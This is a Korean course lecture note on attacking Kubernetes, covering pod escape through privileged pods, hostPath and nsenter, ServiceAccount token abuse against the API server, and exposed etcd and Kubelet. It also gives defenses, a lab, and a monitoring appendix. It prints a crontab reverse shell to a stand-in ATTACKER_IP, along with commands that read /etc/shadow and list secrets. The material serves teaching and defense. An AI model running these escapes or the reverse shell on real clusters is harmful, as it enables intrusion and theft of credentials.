

# Week 12: Kubernetes 공격

## 학습 목표
- Kubernetes 환경의 주요 공격 벡터를 이해한다
- Pod 탈출(escape) 기법과 방어 방법을 익힌다
- ServiceAccount 토큰 악용 시나리오를 파악한다
- Kubernetes 공격 킬체인을 설명할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 이론 강의 (Part 1) | 강의 |
| 0:40-1:10 | 이론 심화 + 사례 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 실습 (Part 3) | 실습 |
| 2:00-2:40 | 심화 실습 + 도구 활용 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 응용 실습 + Bastion 연동 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

---

## 용어 해설 (Docker/클라우드/K8s 보안 과목)

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **컨테이너** | Container | 앱과 의존성을 격리하여 실행하는 경량 가상화 | 이삿짐 컨테이너 (어디서든 동일하게 열 수 있음) |
| **이미지** | Image (Docker) | 컨테이너를 만들기 위한 읽기 전용 템플릿 | 붕어빵 틀 |
| **Dockerfile** | Dockerfile | 이미지를 빌드하는 레시피 파일 | 요리 레시피 |
| **레지스트리** | Registry | 이미지를 저장·배포하는 저장소 (Docker Hub 등) | 앱 스토어 |
| **레이어** | Layer (Image) | 이미지의 각 빌드 단계 (캐싱 단위) | 레고 블록 한 층 |
| **볼륨** | Volume | 컨테이너 데이터를 영구 저장하는 공간 | 외장 하드 |
| **네임스페이스** | Namespace (Linux) | 프로세스를 격리하는 커널 기능 (PID, NET, MNT 등) | 칸막이 (같은 건물, 서로 안 보임) |
| **cgroup** | Control Group | 프로세스의 CPU/메모리 사용량을 제한하는 커널 기능 | 전기/수도 사용량 제한 |
| **오케스트레이션** | Orchestration | 다수의 컨테이너를 관리·조율하는 것 (K8s) | 오케스트라 지휘 |
| **Pod** | Pod (K8s) | K8s의 최소 배포 단위 (1개 이상의 컨테이너) | 같은 방에 사는 룸메이트들 |
| **RBAC** | Role-Based Access Control | 역할 기반 접근 제어 (K8s) | 직책별 출입 권한 |
| **PSP/PSA** | Pod Security Policy/Admission | Pod의 보안 설정을 강제하는 정책 | 건물 입주 조건 |
| **NetworkPolicy** | NetworkPolicy (K8s) | Pod 간 네트워크 통신 규칙 | 부서 간 출입 통제 |
| **Trivy** | Trivy | 컨테이너 이미지 취약점 스캐너 (Aqua) | X-ray 검사기 |
| **IaC** | Infrastructure as Code | 인프라를 코드로 정의·관리 (Terraform 등) | 건축 설계도 (코드 = 설계도) |
| **IAM** | Identity and Access Management | 클라우드 사용자/권한 관리 (AWS IAM 등) | 회사 사원증 + 권한 관리 시스템 |
| **CIS 벤치마크** | CIS Benchmark | 보안 설정 모범 사례 가이드 (Center for Internet Security) | 보안 설정 모범답안 |

---

## 1. Kubernetes 공격 킬체인

```
1. 초기 접근        → 취약한 웹 앱, 노출된 API 서버
2. 실행             → Pod 내 명령 실행
3. 권한 상승        → SA 토큰, privileged Pod
4. 횡적 이동        → 다른 Pod/노드 접근
5. 데이터 수집      → Secret, ConfigMap 수집
6. 목표 달성        → 데이터 유출, 암호화폐 채굴
```

### MITRE ATT&CK for Containers

| 전술 | Kubernetes 기법 |
|------|----------------|
| Initial Access | 노출된 Dashboard, API Server |
| Execution | exec into container, cronjob |
| Privilege Escalation | privileged Pod, hostPath |
| Lateral Movement | SA 토큰, 내부 서비스 접근 |
| Collection | Secret/ConfigMap 수집 |

---

## 2. Pod 탈출 (Container Escape)

> **이 실습을 왜 하는가?**
> "Kubernetes 공격" — 이 주차의 핵심 기술을 실제 서버 환경에서 직접 실행하여 체험한다.
> Docker/클라우드/K8s 보안 분야에서 이 기술은 실무의 핵심이며, 실습을 통해
> 명령어의 의미, 결과 해석 방법, 보안 관점에서의 판단 기준을 익힌다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 이 기술이 실제 시스템에서 어떻게 동작하는지 직접 확인
> - 정상과 비정상 결과를 구분하는 눈을 기름
> - 실무에서 바로 활용할 수 있는 명령어와 절차를 체득
>
> **주의:** 모든 실습은 허가된 실습 환경(10.20.30.0/24)에서만 수행한다.

### 2.1 privileged Pod 탈출

> **실습 목적**: Kubernetes 환경의 주요 공격 벡터(privileged Pod 탈출, SA 토큰 악용)를 Docker로 시뮬레이션하여 이해하기 위해 수행한다
>
> **배우는 것**: --privileged 컨테이너에서 호스트 디스크와 프로세스에 접근 가능한 이유와, API 키(SA 토큰) 노출이 전체 시스템 장악으로 이어지는 공격 체인을 이해한다
>
> **결과 해석**: privileged 컨테이너에서 fdisk -l 성공은 호스트 탈출 가능 상태, --cap-drop ALL에서 실패는 방어 동작을 의미한다
>
> **실전 활용**: K8s 보안 감사에서 privileged Pod 탐지, SA 토큰 자동 마운트 비활성화, 감사 로깅 설정에 활용한다

```bash
# 공격자가 privileged Pod에 접근한 경우
# 호스트 파일시스템 마운트
mkdir /mnt/host
mount /dev/sda1 /mnt/host

# 호스트의 crontab에 리버스 셸 추가
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" \
  >> /mnt/host/var/spool/cron/crontabs/root
```

### 2.2 hostPath 악용

```yaml
# 위험한 Pod 정의
spec:
  containers:
    - name: evil
      image: ubuntu
      volumeMounts:
        - name: host-root
          mountPath: /host
  volumes:
    - name: host-root
      hostPath:
        path: /          # 호스트 루트 전체 마운트!
```

```bash
# Pod 내부에서
chroot /host /bin/bash   # 호스트 셸 획득
cat /host/etc/shadow     # 호스트 비밀번호 해시 접근
```

### 2.3 hostPID + nsenter 탈출

```yaml
spec:
  hostPID: true          # 호스트 PID 네임스페이스 공유
  containers:
    - name: escape
      image: ubuntu
      securityContext:
        privileged: true
```

```bash
# Pod 내부에서 호스트의 init 프로세스(PID 1) 네임스페이스 진입
nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash
# → 호스트 셸 획득
```

---

## 3. ServiceAccount 토큰 악용

### 3.1 자동 마운트된 SA 토큰

모든 Pod에는 기본적으로 ServiceAccount 토큰이 마운트된다.

```bash
# Pod 내부에서 SA 토큰 확인
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# CA 인증서
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# 네임스페이스
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
```

### 3.2 SA 토큰으로 API 서버 접근

```bash
# 토큰과 CA 설정
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
APISERVER="https://kubernetes.default.svc"

# 현재 권한 확인
curl -sk $APISERVER/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $TOKEN"

# Secret 목록 조회 시도
curl -sk $APISERVER/api/v1/namespaces/default/secrets \
  -H "Authorization: Bearer $TOKEN"

# 새 Pod 생성 시도 (RBAC에 따라 허용/거부)
curl -sk $APISERVER/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"apiVersion":"v1","kind":"Pod","metadata":{"name":"evil"},...}'
```

### 3.3 과도한 SA 권한 체인

```
웹 앱 취약점 (RCE)
→ Pod 내부 셸 획득
→ SA 토큰 읽기
→ API 서버에서 Secret 조회
→ DB 비밀번호 획득
→ 데이터베이스 접근
→ 데이터 유출
```

---

## 4. 기타 공격 벡터

### 4.1 etcd 직접 접근

etcd가 인증 없이 노출되면 클러스터 전체 정보가 유출된다.

```bash
# etcd가 노출된 경우 (포트 2379)
etcdctl get / --prefix --keys-only
etcdctl get /registry/secrets/default/db-credentials
```

### 4.2 Kubelet API 악용

Kubelet API(포트 10250)가 인증 없이 노출된 경우:

```bash
# Pod 목록 조회
curl -sk https://NODE_IP:10250/pods

# Pod 내부에서 명령 실행
curl -sk https://NODE_IP:10250/run/NAMESPACE/POD/CONTAINER \
  -d "cmd=id"
```

### 4.3 노출된 Dashboard

```bash
# Kubernetes Dashboard가 인증 없이 노출된 경우
# 브라우저에서 접근 → 클러스터 전체 관리 가능
# 실제 사고: Tesla의 K8s Dashboard 노출 → 암호화폐 채굴
```

---

## 5. 방어 전략

### 5.1 Pod 보안

```yaml
spec:
  automountServiceAccountToken: false  # SA 토큰 마운트 금지
  securityContext:
    runAsNonRoot: true
    runAsUser: 65534
  containers:
    - securityContext:
        privileged: false
        allowPrivilegeEscalation: false
        readOnlyRootFilesystem: true
        capabilities:
          drop: ["ALL"]
```

### 5.2 RBAC 강화

```yaml
# 최소 권한 ServiceAccount
apiVersion: v1
kind: ServiceAccount
metadata:
  name: web-app-sa
  namespace: production
automountServiceAccountToken: false
```

### 5.3 감사 로깅

```yaml
# 감사 정책 (audit-policy.yaml)
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  - level: RequestResponse    # 모든 요청/응답 기록
    resources:
      - group: ""
        resources: ["secrets", "configmaps"]
  - level: Metadata           # 메타데이터만 기록
    resources:
      - group: ""
        resources: ["pods"]
```

---

## 6. 실습: 공격 시나리오 이해

### 실습 1: SA 토큰 개념 이해

```bash
# ccc-api의 API 키 = K8s의 SA 토큰과 유사한 개념 — 노출 시 전체 시스템 제어

# 올바른 인증
curl -s -H "X-API-Key: ccc-api-key-2026" \
  http://localhost:9100/students

# 인증 없이 시도 → 거부 (401)
curl -s http://localhost:9100/students
```

### 실습 2: Bastion LLM으로 K8s 공격 시나리오 분석

```bash
curl -s -X POST http://10.20.30.200:8003/ask \
  -H 'Content-Type: application/json' \
  -d '{
    "message": "Kubernetes 환경에서 공격자가 취약한 웹 앱을 통해 Pod에 RCE를 얻었고, automountServiceAccountToken이 true이며 SA에 cluster-admin 권한이 있다. 킬체인을 단계별로 설명하고 각 단계의 방어 방법을 정리해줘."
  }' \
  | python3 -c "import sys,json; d=json.load(sys.stdin); print(d['answer'])"
```

### 실습 3: Docker 환경에서 컨테이너 탈출 체험

```bash
ssh ccc@10.20.30.80

# privileged 컨테이너에서 호스트 정보 접근 (교육 목적)
docker run --rm --privileged alpine sh -c '
  echo "=== 호스트 커널 정보 ==="
  uname -a
  echo "=== 호스트 디스크 ==="
  fdisk -l 2>/dev/null | head -5
  echo "=== 호스트 프로세스 (hostPID 아님) ==="
  ls /proc | head -20
'

# 비privileged 컨테이너에서는 접근 불가
docker run --rm --cap-drop ALL alpine sh -c '
  fdisk -l 2>/dev/null || echo "디스크 접근 거부됨"
'
```

---

## 7. 공격 방어 체크리스트

- [ ] privileged Pod가 없는가?
- [ ] hostPath, hostNetwork, hostPID를 사용하지 않는가?
- [ ] SA 토큰 자동 마운트를 비활성화했는가?
- [ ] SA에 최소 권한만 부여했는가?
- [ ] API Server에 인증이 설정되어 있는가?
- [ ] etcd가 외부에 노출되지 않는가?
- [ ] Kubelet API에 인증이 설정되어 있는가?
- [ ] Dashboard가 외부에 노출되지 않는가?
- [ ] 감사 로깅이 활성화되어 있는가?

---

## 핵심 정리

1. K8s 공격은 취약한 앱 → Pod 셸 → SA 토큰 → 횡적 이동 순으로 진행된다
2. privileged Pod와 hostPath는 컨테이너 탈출의 주요 경로이다
3. SA 토큰이 자동 마운트되므로, 불필요 시 반드시 비활성화한다
4. etcd, Kubelet API, Dashboard의 노출은 클러스터 전체 장악으로 이어진다
5. 방어의 핵심은 최소 권한 + 네트워크 격리 + 감사 로깅이다

---

## 다음 주 예고
- Week 13: 클라우드 모니터링 - CloudTrail, CloudWatch 개념

---

---

## 심화: 컨테이너/클라우드 보안 보충

### Docker 보안 핵심 개념 상세

#### 컨테이너 격리의 원리

```
호스트 OS 커널
├── Namespace (격리)
│   ├── PID namespace  → 컨테이너마다 독립 프로세스 번호
│   ├── NET namespace  → 컨테이너마다 독립 네트워크 스택
│   ├── MNT namespace  → 컨테이너마다 독립 파일시스템
│   ├── UTS namespace  → 컨테이너마다 독립 hostname
│   └── USER namespace → 컨테이너 내 root ≠ 호스트 root (설정 시)
│
├── cgroup (자원 제한)
│   ├── CPU:    --cpus=2          → 최대 2코어
│   ├── Memory: --memory=512m     → 최대 512MB
│   └── IO:     --blkio-weight=500
│
└── Overlay FS (레이어 파일시스템)
    ├── 읽기 전용 레이어 (이미지)
    └── 읽기/쓰기 레이어 (컨테이너)
```

> **왜 컨테이너가 VM보다 가벼운가?**
> VM: 각각 전체 OS 커널을 포함 (수 GB)
> 컨테이너: 호스트 커널을 공유, 격리만 namespace로 (수 MB)
> 대신 격리 수준은 VM이 더 강하다 (커널 취약점 시 컨테이너 탈출 가능)

#### Dockerfile 보안 체크리스트

```dockerfile
# 나쁜 예
FROM ubuntu:latest          # ❌ latest 태그 (재현 불가)
RUN apt-get update && apt-get install -y curl vim  # ❌ 불필요 패키지
COPY . /app                 # ❌ 전체 복사 (.env 포함 가능)
RUN chmod 777 /app          # ❌ 과도한 권한
USER root                   # ❌ root 실행
EXPOSE 22                   # ❌ SSH 포트 (컨테이너에서 불필요)

# 좋은 예
FROM ubuntu:22.04@sha256:abc123...  # ✅ 특정 버전 + digest 고정
RUN apt-get update && apt-get install -y --no-install-recommends curl \
    && rm -rf /var/lib/apt/lists/*  # ✅ 최소 패키지 + 캐시 삭제
COPY --chown=appuser:appuser app/ /app  # ✅ 필요한 것만 + 소유자 지정
RUN chmod 550 /app          # ✅ 최소 권한
USER appuser                # ✅ 비root 사용자
HEALTHCHECK CMD curl -f http://localhost:8080 || exit 1  # ✅ 헬스체크
```

### 실습: Docker 보안 점검 (실습 인프라)

```bash
# web 서버의 Docker 상태 확인
ssh ccc@10.20.30.80 "
  echo '=== Docker 버전 ===' && docker --version 2>/dev/null || echo 'Docker 미설치'
  echo '=== 실행 중 컨테이너 ===' && docker ps 2>/dev/null || echo '접근 불가'
  echo '=== Docker 소켓 권한 ===' && ls -la /var/run/docker.sock 2>/dev/null
" 2>/dev/null

# siem 서버의 Docker 상태 (OpenCTI가 Docker로 실행)
ssh ccc@10.20.30.100 "
  echo '=== Docker 컨테이너 ===' && sudo docker ps --format 'table {{.Names}}\t{{.Image}}\t{{.Status}}' 2>/dev/null
  echo '=== Docker 네트워크 ===' && sudo docker network ls 2>/dev/null
" 2>/dev/null
```

### CIS Docker Benchmark 핵심 항목

| # | 항목 | 점검 명령 | 기대 결과 |
|---|------|---------|---------|
| 2.1 | Docker daemon 설정 | `cat /etc/docker/daemon.json` | userns-remap 설정 |
| 4.1 | 비root 사용자 | `docker inspect --format '{{.Config.User}}' <컨테이너>` | root가 아닌 사용자 |
| 4.6 | HEALTHCHECK | `docker inspect --format '{{.Config.Healthcheck}}' <컨테이너>` | 헬스체크 설정됨 |
| 5.2 | network_mode | `docker inspect --format '{{.HostConfig.NetworkMode}}' <컨테이너>` | host가 아닌 것 |
| 5.12 | --privileged | `docker inspect --format '{{.HostConfig.Privileged}}' <컨테이너>` | false |

---
---

> **실습 환경 검증 완료** (2026-03-28): Docker 29.3.0, Compose v5.1.1, juice-shop(User=65532,Privileged=false), OpenCTI 6컨테이너, opencti_default 네트워크

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Kubernetes + kubectl
> **역할:** 컨테이너 오케스트레이션  
> **실행 위치:** `컨트롤 플레인 / kubeconfig 보유 클라이언트`  
> **접속/호출:** `kubectl` with `~/.kube/config`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `/etc/kubernetes/` | 컨트롤 플레인 설정 (kubeadm) |
| `/var/lib/etcd/` | etcd 저장소 — 전체 클러스터 시크릿 포함 |
| `~/.kube/config` | 사용자 인증 정보 |

**핵심 설정·키**

- `PodSecurity admission (restricted)` — 네임스페이스별 보안 레벨
- `NetworkPolicy default-deny` — 파드 간 기본 차단
- `RBAC Role/RoleBinding` — 최소 권한

**로그·확인 명령**

- ``kubectl logs <pod> -c <container>`` — 파드 로그
- ``kubectl get events -A`` — 클러스터 이벤트

**UI / CLI 요점**

- `kubectl auth can-i --list` — 현재 주체가 가능한 동작 열거
- `kubectl get pods -A -o wide` — 전체 파드 상태
- `kubectl describe pod <p>` — 이벤트/이미지/볼륨 상세

> **해석 팁.** etcd 노출·kubeconfig 유출은 **즉각적 클러스터 장악**. `kubectl auth can-i` 결과가 예상보다 많으면 RBAC 재설계 신호.

---

## 실제 사례 (WitFoo Precinct 6 — Kubernetes 공격 / pod escape)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *pod escape + RBAC abuse + SA token 탈취 + lateral* 학습 항목 매칭.

### K8s 공격의 핵심 시나리오 — privileged pod 1개에서 cluster 탈취까지

K8s 공격의 가장 위험한 시나리오는 *privileged pod escape* 다. 공격자가 (1) 어떤 application 취약점으로 pod 1개를 침해 → (2) 그 pod 가 privileged 또는 hostPath mount 를 갖고 있다면 → (3) 호스트 노드 자체로 escape → (4) 그 노드의 모든 pod 의 SA token 을 추출 → (5) 그 token 으로 cluster API 호출 → (6) kube-system namespace 의 권한 탈취.

이 시나리오의 무서운 점은 — 6단계가 *각각 다른 권한 layer 를 우회* 한다는 점이다. application 취약점 (1) 은 코드 레벨, privileged pod (2) 는 K8s 정책 레벨, host escape (3) 는 OS 레벨, token 추출 (4) 는 파일시스템 레벨, cluster API (5) 는 네트워크 + RBAC 레벨, kube-system (6) 은 admin 권한 레벨. 즉 *6중 방어가 모두 실패해야* 끝까지 간다 — 한 layer 만 막아도 사고는 멈춘다.

dataset 은 각 단계가 만드는 신호를 보여준다. host escape 는 event 4662 (host fs access) 226K 의 anomaly 로, capability 남용은 event 4690 (handle dup) 79K 의 burst 로, cluster API enumeration 은 ListContainerInstances 540 의 burst 와 AssumeRole-like 9,340 의 outlier 로 — 모든 단계가 *별도의 정량 anomaly* 로 폭로된다.



**그림 해석**: 6단계 evidence chain — privileged pod 1개에서 시작해 cluster takeover 까지. 학생이 알아야 할 것은 — *각 단계마다 dataset 신호 anomaly 가 발생하므로, 어느 단계의 anomaly 든 잡으면 사고를 멈출 수 있다는 점*. lecture §"defense in depth" 의 정량 정당성.

### Case 1: event 4690 (handle dup) 79,254건 — SA token 추출의 운영 흔적

| 항목 | 값 | 의미 |
|---|---|---|
| message_type | `4690` | 객체 핸들 복제 감사 이벤트 |
| 총 발생 | 79,254건 | 약 30일 분량의 정상 운영 |
| 정상 baseline | 호스트 시간당 ~50건 | 격리된 pod 환경에서 |
| 학습 매핑 | §"SA token 추출" | host fs read 시 발생하는 흔적 |

**자세한 해석**:

K8s 의 Service Account (SA) token 은 pod 내부의 *`/var/run/secrets/kubernetes.io/serviceaccount/token`* 경로에 마운트된다. 이 token 은 *그 pod 의 권한 인증서* 이며, 외부로 추출되면 — 공격자가 그 pod 의 SA 권한으로 cluster API 를 호출할 수 있다.

privileged pod 또는 hostPath mount 를 가진 pod 는 — *호스트의 모든 pod 의 token 디렉토리에 접근* 할 수 있다 (`/var/lib/kubelet/pods/<other-pod-id>/volumes/kubernetes.io~secret/token-XXXX`). 이렇게 호스트 fs 를 통해 다른 pod 의 token 을 read 하는 동작이 발생하면 — 호스트 audit 에 *event 4690 (handle dup)* + *event 4662 (object access)* 의 burst 가 기록된다.

**dataset 79,254건은 정상 운영의 한 달 누적** — 즉 호스트당 시간당 ~50건이 평균. 단일 pod 가 5분 안에 100건+ 의 4690 burst 를 만들면 — 그것은 *대량의 handle 복제* 가 일어났다는 뜻이며, SA token 추출 시도의 강력한 정량 지표다.

학생이 알아야 할 것은 — **SA token 추출은 *그 자체로는 K8s API 호출이 아니어서 K8s audit 에는 안 보인다*** 는 점. 호스트 OS audit (4690/4662) 에서 봐야 잡을 수 있다. lecture §"K8s audit + 호스트 audit 의 결합 모니터링" 의 핵심.

### Case 2: ListContainerInstances 540 + AssumeRole 9,340 — 탈취된 SA 의 enumeration 행동

| 항목 | 값 | 의미 |
|---|---|---|
| 시나리오 | SA token 탈취 후 cluster API 호출 | 6단계 chain 의 5번째 |
| 신호 1 | AssumeRole 9,340 중 비정상 caller | 신규 IP 또는 비정상 시간 |
| 신호 2 | ListContainerInstances 540 의 단발 burst | 짧은 시간 100+ 호출 |
| 학습 매핑 | §"`kubectl get pods -A` 자동화" | RBAC abuse 의 운영 흔적 |

**자세한 해석**:

탈취된 SA token 으로 공격자가 가장 먼저 하는 행동은 — **`kubectl get pods -A` (cluster 전체 pod 목록) 또는 `kubectl auth can-i --list` (가능한 모든 권한 list)** 다. 이 명령들은 *어떤 자원이 있고 어떤 권한이 있는지* 를 한 번에 알려준다 — 공격자의 OODA loop 의 *Observe 단계*.

dataset 의 ListContainerInstances 540건은 — 정상 운영의 한 달치 *전체* 합계. 정상 SA 들은 *느리게 분산된 호출* 만 만든다. 그러나 탈취된 SA 가 enumeration 을 시작하면 — 짧은 시간 (5분) 안에 100건+ 의 list 호출이 발생한다. 즉 *baseline 은 시간당 ~0.7 건이지만 burst 는 시간당 1,200건* 같은 1,000배 이상의 anomaly.

**탐지 룰**: 5분 윈도우에서 단일 SA 의 list 호출이 평균 + 3σ 를 넘으면 즉시 alert + 그 SA 의 token 을 자동 회수. lecture §"SA token 자동 회수" 의 운영 정착 동기.

### 이 사례에서 학생이 배워야 할 3가지

1. **K8s 공격은 6중 방어를 모두 뚫어야 끝난다** — 한 layer 만 막아도 사고가 멈춤. 따라서 *어느 layer 든 monitoring* 이 가치 있다.
2. **SA token 추출은 K8s audit 에는 안 보인다** — 호스트 OS audit (4690/4662) 에서 잡아야 함.
3. **탈취된 SA 의 첫 행동은 enumeration** — list 호출 burst 가 정량 신호. 5분 윈도우 + 3σ 룰로 차단.

**학생 액션**: lab 의 default SA token 1개로 (1) `kubectl get pods -A`, (2) `kubectl auth can-i --list`, (3) `kubectl get secrets -A` 를 차례로 실행. 각 명령이 K8s audit 와 호스트 audit (각각 발생할 수 있는 dataset 신호) 에 어떤 흔적을 남기는지 추적. 이후 RBAC role 을 *자기 namespace 만* 으로 좁히고 동일 명령을 재실행하여 — *어느 단계에서 차단되는지* 비교 표 작성.


---

## 부록: 학습 OSS 도구 매트릭스 (Course6 Cloud-Container — Week 12 모니터링/로깅)

### 컨테이너 모니터링 / 로깅 OSS 도구

| 영역 | OSS 도구 |
|------|---------|
| Metrics | **Prometheus** + node_exporter / VictoriaMetrics / Mimir |
| Visualization | **Grafana** / Perses / Grafana Loki UI |
| Logs | **Loki** + Promtail / Fluent Bit / Vector / Elasticsearch |
| Traces | **Jaeger** + OpenTelemetry / Tempo / Zipkin |
| APM | OpenTelemetry / SigNoz (OSS Datadog) / Pixie |
| Alerting | **Alertmanager** / Karma / OnCall |
| Container metrics | **cAdvisor** / kube-state-metrics |
| eBPF observability | **Pixie** / Cilium Hubble / pyrra |

### 핵심 — Prometheus + Grafana + Loki Stack

```bash
# kube-prometheus-stack (가장 표준 — 한 번에 설치)
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm install prom prometheus-community/kube-prometheus-stack \
  --namespace monitoring --create-namespace \
  --set grafana.adminPassword=Pa\$\$w0rd

# Loki (logs)
helm install loki grafana/loki-stack \
  --namespace monitoring \
  --set grafana.enabled=false \
  --set prometheus.enabled=false

# OpenTelemetry Collector
helm install opentelemetry-collector open-telemetry/opentelemetry-collector \
  --namespace monitoring \
  --set mode=daemonset
```

### 학생 환경 준비

```bash
# Helm
curl https://baltocdn.com/helm/signing.asc | sudo apt-key add -
echo "deb https://baltocdn.com/helm/stable/debian/ all main" | sudo tee /etc/apt/sources.list.d/helm-stable-debian.list
sudo apt update && sudo apt install -y helm

# Helm repo
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo add grafana https://grafana.github.io/helm-charts
helm repo add open-telemetry https://open-telemetry.github.io/opentelemetry-helm-charts
helm repo update

# Vector (modern observability pipeline)
curl -1sLf https://repositories.timber.io/public/vector/cfg/setup/bash.deb.sh | sudo bash
sudo apt install -y vector

# Pixie (eBPF — Datadog 처럼)
bash -c "$(curl -fsSL https://withpixie.ai/install.sh)"
px deploy

# SigNoz (OSS Datadog)
git clone -b main https://github.com/SigNoz/signoz.git
cd signoz/deploy/
./install.sh
```

### 핵심 사용법

```bash
# 1) Prometheus query (PromQL)
# 컨테이너 별 CPU 사용률
sum by (container) (rate(container_cpu_usage_seconds_total{namespace="default"}[5m]))

# 메모리 (container_memory_working_set_bytes)
sum by (pod) (container_memory_working_set_bytes{namespace="default"})

# 네트워크 (container_network_receive_bytes_total)
rate(container_network_receive_bytes_total{namespace="default"}[5m])

# 2) Grafana — Dashboard import (ID)
# 12126 (Container/Pod metrics)
# 13770 (cAdvisor)
# 12740 (Loki + Promtail)

# 3) Loki LogQL (Promtail 가 자동 수집)
# 특정 namespace 의 ERROR
{namespace="production"} |= "ERROR"

# JSON 로그 파싱
{namespace="production"} | json | level="error"

# 정규식 추출
{namespace="production"} | regexp "user=(?P<user>\\w+)" | user="admin"

# 4) Alertmanager — 알람 룰
cat > /etc/prometheus/alerts.yml << 'EOF'
groups:
  - name: container-alerts
    rules:
      - alert: HighMemoryUsage
        expr: container_memory_working_set_bytes / container_spec_memory_limit_bytes > 0.9
        for: 10m
        labels: {severity: critical}
        annotations:
          summary: "Container {{ $labels.pod }} memory > 90%"
EOF

# 5) OpenTelemetry — APM
# Application code 에 SDK 추가
# Python:
pip install opentelemetry-distro opentelemetry-exporter-otlp
opentelemetry-instrument python myapp.py

# 6) Pixie — eBPF (sidecar 없이 즉시 가시성)
px run px/cluster                                      # 클러스터 overview
px run px/http_data                                    # HTTP 트래픽 자동 (sidecar 없이!)
```

### 통합 모니터링 대시보드

```bash
# Phase 1: 인프라 메트릭 (Prometheus)
# - CPU / Memory / Disk / Network (자동)

# Phase 2: 애플리케이션 메트릭 (custom)
# - HTTP 요청 수, 레이턴시, 에러율 (RED metrics)

# Phase 3: 로그 통합 (Loki)
# - 모든 pod stdout/stderr 자동 수집

# Phase 4: 분산 trace (Jaeger / Tempo)
# - 요청 별 모든 서비스 추적

# Phase 5: 보안 모니터링 (Falco + Wazuh)
# - syscall 레벨 이상 행위
```

### 보안 관점 — 모니터링 데이터 활용

| 위협 | 모니터링 신호 |
|------|-------------|
| 컨테이너 escape | Falco rule + 비정상 syscall + privilege change |
| Crypto-mining | CPU 100% 지속 + 비정상 outbound network |
| Data exfil | 비정상 outbound bytes + DNS query 패턴 |
| DoS | request rate 급증 + 5xx 에러 |
| Privesc | role 변경 + suid binary 실행 |

학생은 본 12주차에서 **Prometheus + Grafana + Loki + Jaeger + OpenTelemetry + Falco** 6 도구로 컨테이너 환경의 4 축 (Metrics / Logs / Traces / Security) 통합 가시성을 OSS 만으로 구축한다.
